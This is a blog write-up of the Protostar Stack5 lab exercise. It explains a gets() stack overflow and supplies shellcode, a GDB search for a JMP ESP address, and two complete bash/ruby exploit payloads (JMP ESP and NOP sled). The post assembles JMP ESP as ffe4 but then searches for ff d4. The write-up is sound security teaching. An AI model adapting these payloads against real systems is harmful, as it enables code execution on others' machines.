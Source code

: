 Author: zlowram
Date: 12-21-2014 14:04
Title: Exploit-exercises Protostar Stack5 write-up 
Template: post
Comments: enabled

This exercise is a classical stack overflow escenario. We have write operation to a buffer in which the length is not controlled, and can be used to redirect the execution flow.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

This time we don't have any function to redirect the execution flow to.
Instead, we have to use a shellcode in order to execute any desired code. In
this particular case, though, we are going to the following self-written
shellcode, which runs the ls command.

```nasm
; /bin/sh -c /bin/ls /
; char cmd[] = "/bin/sh";
; char *argv[] = {cmd, "-c", "/bin/ls", NULL};
; execve(cmd, argv, 0)

xor eax, eax
push eax
push 0x68732f2f ; //sh
push 0x6e69622f ; /bin
mov ebx, esp
push eax
push 0x736c2f2f ; //ls
push 0x6e69622f ; /bin
mov edx, esp
push eax
push 0x6363632d ; -ccc
mov ecx, esp
push eax ; NULL 
push edx ; argv[2]
push ecx ; argv[1]
push ebx ; cmd
mov ecx, esp
xor edx, edx
mov al, 0xb
int 0x80
```

The scenario presented in this exercise is very similar to the one presented in
[stack4](/2014/12/9/exploit-exercises-protostar-stack4/), as we use the same procedure for calculating the padding needed to
overwrite the ret address.

What remains here, is know where to place the shellcode in the stack, and jump
into it so it gets executed. Taking into account that my shellcode is quite
large, we are going to place it after the ret address. Then, in order to jump
into it, we can do it using the jmp esp technique, or guessing the address with
the help of a nopsled.

### JMP ESP

As mentioned above, the shellcode will be right after the ret address. A quite
convenient way to jump to the shellcode is to make the ret address point to a
JMP ESP instruction. If we think how would be the stack layout once the ret
address is back in the EIP register (i.e. when the ret instruction has been
executed), we would have something like this:

```markup
+------------+ Lower addresses
|    ...     | 
+------------+
|  (buffer)  | 
|     .      | 
|     .      |
+------------+
|(stored_ebp)| 
+------------+
|   (ret)    | 
+------------+ <-- ESP
| shellcode  | 
+------------+
| shellcode  | 
+------------+
|    ...     | 
+------------+ Higher addresses
```

The values between parenthesis represent the old data that was in the stack
when the function was being executed. If we pay attention to where is the ESP
pointing now, and the value that has the EIP register (the address of a JMP ESP
instruction), it is clear that on the next step the shellcode will start to be
executed.

Now the question is, how can I find this JMP ESP and obtain its address? The
answer is quick and easy. We need to get the hex representation of the JMP ESP
instruction, and try to find those bytes within the binary we are exploiting.
In order to get the hex representation of the JMP ESP, we only need to
assemble it and get the value.

In my case, I used the rasm2 tool provided with [radare](http://radare.org) to assemble the
JMP ESP instruction by running:

```markup
$ rasm2 -a x86.olly -b 32 'JMP ESP'
ffe4
```

With this, we now need to find this two bytes within the binary, which can be
done with GDB. Open the binary with GDB, set a breakpoint wherever you want and
run it. Once it stops, type:

```markup
(gdb) info proc mapping
process 12596
cmdline = '/home/user/stack5/stack5'
cwd = '/home/user/stack5'
exe = '/home/user/stack5/stack5'
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
     0x8048000  0x8049000     0x1000          0     /home/user/stack5/stack5
     0x8049000  0x804a000     0x1000          0     /home/user/stack5/stack5
    0xb7e96000 0xb7e97000     0x1000          0     
    0xb7e97000 0xb7fd5000   0x13e000          0      /lib/libc-2.11.2.so
    0xb7fd5000 0xb7fd6000     0x1000   0x13e000      /lib/libc-2.11.2.so
    0xb7fd6000 0xb7fd8000     0x2000   0x13e000      /lib/libc-2.11.2.so
    0xb7fd8000 0xb7fd9000     0x1000   0x140000      /lib/libc-2.11.2.so
    0xb7fd9000 0xb7fdc000     0x3000          0     
    0xb7fe0000 0xb7fe2000     0x2000          0     
    0xb7fe2000 0xb7fe3000     0x1000          0        [vdso]
    0xb7fe3000 0xb7ffe000    0x1b000          0      /lib/ld-2.11.2.so
    0xb7ffe000 0xb7fff000     0x1000    0x1a000      /lib/ld-2.11.2.so
    0xb7fff000 0xb8000000     0x1000    0x1b000      /lib/ld-2.11.2.so
    0xbffeb000 0xc0000000    0x15000          0        [stack]
```

With this command, we can see the mappings of the shared libraries used by the
program. Now, with the help of the GDB find command, we will find those two
bytes:

```markup
(gdb) find /b 0xb7e97000, +0x13e000, 0xff, 0xd4
0xb7e99a1d
0xb7ee864a <_IO_vfwprintf+9274>
0xb7fa6917 <translit_from_tbl+2583>
0xb7fb5e37
0xb7fc29c3
5 patterns found.
```

We specified the start address of the libc (0xb7e97000) and the size of it
(0x13e000), followed by the two bytes we want. The 5 returned results are valid
addresses, where there is a JMP ESP instruction.

### Nopsled

The nopsled method is less precise and elegant, but it is also effective. The
idea of this method is to increase the chances of finding a good ret address.
by appending a decent amount of NOP instructions (nopsled) after the
overwritten ret address and, after that, the shellcode. With a big amount of
NOP opeartions it is easier to find a ret address that lands within the NOP
padding, which will get executed, keeping the integrity of registers and stack)
until the execution reach the shellcode.

In this case, the stack layout would be the following:

```markup
+------------+ Lower addresses
|    ...     | 
+------------+
|  AAAAAAAA  | <-- buffer
|     .      | 
|     .      |
+------------+
|  AAAAAAAA  |
+------------+
|    ret     | 
+------------+ <-- ESP
|    NOP     | 
+------------+
|    NOP     | 
+------------+
|    ...     | 
+------------+
| shellcode  | 
+------------+
| shellcode  | 
+------------+
|    ...     | 
+------------+ Higher addresses
```

To conclude, find below the two snippets with the solution using both methods.

```bash
#!/bin/bash

# JMP ESP

mkfifo pipe
./stack5 < pipe &
ruby -e ' print "A"*76+"\x1d\x9a\xe9\xb7"+"\x33\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8b\xdc\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x8b\xd4\x50\x68\x2d\x63\x63\x63\x8b\xcc\x50\x52\x51\x53\x8b\xcc\x33\xd2\xc6\xc0\x0b\xcd\x80"' > pipe
rm pipe
```

```bash
#!/bin/bash

# Nopsled

mkfifo pipe
./stack5 < pipe &
ruby -e ' print "A"*76+"\x00\xf8\xff\xbf"+"\x90"*200+"\x33\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8b\xdc\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x8b\xd4\x50\x68\x2d\x63\x63\x63\x8b\xcc\x50\x52\x51\x53\x8b\xcc\x33\xd2\xc6\xc0\x0b\xcd\x80"' > pipe
rm pipe
</pre>
```
